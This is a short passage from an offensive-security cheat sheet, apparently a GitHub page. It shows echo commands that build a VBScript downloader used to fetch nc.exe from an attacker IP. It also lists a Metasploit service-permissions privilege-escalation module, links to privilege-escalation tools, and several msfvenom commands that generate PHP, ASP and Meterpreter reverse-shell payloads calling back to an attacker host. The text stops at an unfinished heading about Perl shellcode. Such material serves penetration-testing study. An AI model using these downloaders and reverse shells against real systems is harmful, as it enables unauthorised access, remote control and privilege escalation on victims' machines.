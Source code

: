 echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs

echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs

echo http.Open "GET",strURL,False >> wget.vbs

echo http.Send >> wget.vbs

echo varByteArray = http.ResponseBody >> wget.vbs

echo Set http = Nothing >> wget.vbs

echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs

echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs

echo strData = "" >> wget.vbs

echo strBuffer = "" >> wget.vbs

echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs

echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs

echo Next >> wget.vbs

echo ts.Close >> wget.vbs

Run with:

$ cscript wget.vbs http://<attacker\_ip>/nc.exe nc.exe

Metasploit

Module to elevate privileges to SYSTEM by creating a service or hijacking existing ones with incorrect permissions

$ exploit/windows/local/service\_permissions

Other scripts

https://github.com/GDSSecurity/Windows-Exploit-Suggester

https://github.com/Jean13/Penetration\_Testing/blob/master/Privilege\_Escalation/windows-privesc-check2.exe

Generate php reverse shell:

msfvenom -p php/reverse\_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php

msfvenom -p php/meterpreter/reverse\_tcp LHOST=<attacker\_ip> -o meterpreter.php

msfvenom -p generic/shell\_reverse\_tcp LHOST=<attacker\_ip> LPORT=4444 -f php -o shell.php

Others

$ msfvenom -p windows/meterpreter/reverse\_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

Generate shellcode to use within a perl exploit:
